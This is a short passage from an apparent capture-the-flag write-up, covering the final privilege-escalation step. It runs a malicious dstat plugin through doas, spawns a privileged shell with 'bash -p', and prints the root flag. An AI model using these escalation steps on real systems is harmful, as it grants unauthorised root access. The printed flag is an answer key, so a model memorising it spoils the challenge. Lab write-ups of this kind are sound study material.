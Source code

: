 ![](./IMG/75.png)
- Execute the malicious extension
```
doas /usr/bin/dstat --escalte
```

![](./IMG/76.png)

```
bash -p
```

![](./IMG/77.png)
- Get root flag:
```
eb562b042f6a7baac652c9fab3dad856
```

![](./IMG/78.png)
